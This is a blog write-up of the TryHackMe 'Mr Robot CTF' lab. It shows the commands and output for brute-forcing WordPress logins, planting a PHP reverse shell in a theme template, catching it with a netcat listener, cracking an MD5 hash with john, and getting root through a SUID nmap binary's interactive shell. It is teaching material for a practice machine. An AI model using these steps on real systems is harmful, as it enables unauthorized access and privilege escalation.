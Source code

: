```yaml
---
title: "Mr Robot CTF Writeup THM"
description: "My writeup of the TryHackMe room [Mr Robot CTF](https://tryhackme.com/room/mrrobot)"
date: 2024-01-22T16:00:00+01:00
image: https://images.unsplash.com/photo-1582266255765-fa5cf1a1d501?q=80&w=2670&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
    - Privilege Escalation
categories:
    - Room
    - Medium
---
```


First of all I am going to do an nmap scan:

```bash
nmap -sC -sV -p- 10.10.81.92

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 05:44 EST
Nmap scan report for 10.10.81.92
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.10 seconds
```

Here we can see port 80 and 443 open.

So I am going to expplore the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled.png)

This is the content of the web page.

From this point I just went and enumerate the webpage.

I also found the robots.txt which leads to the first flag.

inside the robots.txt there is also the location to a dictionary:

```bash
sort Downloads/fsocity.dic | uniq > uniq.txt
```

I ran this command because there were repeated words.

So, now I just need the username.

I tried with wpscan but I got nothing, So I tried to FUZZ the username with the sictionary, which if it is in the wordlist, should get a different response size, because wordpress tells you if is just the password that is wrong.

 And that’s exactly what happened:

![pg](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%201.png)

So, now I think of running the fuzzer again, with the username Elliot and with the dictionary as a password.

And we got the password:



![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/pg.png)

And I got in, from there I could create a reverse shell, but first let’s explore the dashboard.

In the Users section wee see that there is another User:

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%203.png)

Maybe it can be helpful later.

We can create a reverse shell just by copy and paste the pentestermonkey reverse shell, in the 404 template.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%204.png)

Then start the listener in the machine and we are in:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.81.92] 50199
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:10:26 up  1:29,  0 users,  load average: 0.00, 0.88, 2.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

We have 2 users:

```bash
cat /etc/passwd | grep "home"

syslog:x:101:104::/home/syslog:/bin/false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

We can’t cd into varnish, but we can cd in robot.

in his home we have 2 files:

```bash
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

As we can see the first one can be opened only by robot, but the second one can be read by anyone:

```bash
cat password.raw-md5
robot:<redacted>
```

And looks like we got the md5 hash of robot

And we can simply brute force it:

```bash
john --format=Raw-md5 pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted> (robot)
1g 0:00:00:00 DONE (2024-01-22 07:19) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Using that we can use the command “su” to authenticate ourself as robot:

```bash
su robot
Password: <redacted>
```

```bash
whoami
robot
```

After doing some enumeration, I noticed that we got a strange SUID:



```bash
find / -type f -perm -04000 -ls 2>/dev/null

 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

Nmap can be used in interactive mode:

```bash
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

And after that we just want to go in the /root directory and retrieve the flag.
